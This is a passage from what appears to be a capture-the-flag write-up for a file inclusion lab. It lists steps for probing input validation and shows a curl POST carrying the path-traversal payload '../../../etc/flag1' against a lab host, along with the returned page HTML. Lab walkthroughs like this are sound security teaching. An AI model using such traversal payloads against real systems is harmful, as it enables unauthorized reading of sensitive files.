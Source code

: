   5- Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.

  6- Understand the input validation and if there are any filters!
  
  7- Try the inject a valid entry to read sensitive files

### Capture Flag1 at /etc/flag1
Crafted a curl command with the request for flag1 :

```console
root@ip-10-10-142-182:~# curl -d "file=../../../etc/flag1" -X POST http://10.10.176.203/challenges/chall1.php

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Lab #Challenge-1</title>


    <!-- Bootstrap core CSS -->
    <link href="./css/bootstrap.min.css" rel="stylesheet">

    <!-- Custom Stylesheet -->
    <link href="./css/style.css" rel="stylesheet">

    <!-- Core libraries bootstrap & jquery -->
    <script src="./js/bootstrap5.min.js"></script>
    <script src="./js/jquery-3.6.0.min.js"></script>

    <!-- Custom JS code -->
    <script src="./js/script.js"></script>

  </head>

    <header>
<div class="container">
  <ul class="nav">
  	<li class="nav-item">
    		<a class="nav-link" href="./index.php">Home</a>
	</li>
        <li class="nav-item">
                <a class="nav-link">/</a>
        </li>
 	<li class="nav-item">
	<a class="nav-link active" >Lab #Challenge-1</a>
        </li>
  </ul>
</div>
    </header>
<body>
  <div class="container" style="padding-top: 5%;">
      <h1 class="display-4">File Inclusion Lab</h1>
      <p class="lead">Lab #Challenge-1: Include a file in the input form below
<hr class="my-4">
<div class="alert alert-warning" role="alert">
  The input form is broken! You need to send `POST` request with `file` parameter!
  </div>
  <form action= "#" method="GET">
          <div class="input-group mb-3">
            <div class="input-group-prepend">
              <span class="input-group-text">File Name</span>
            </div>
```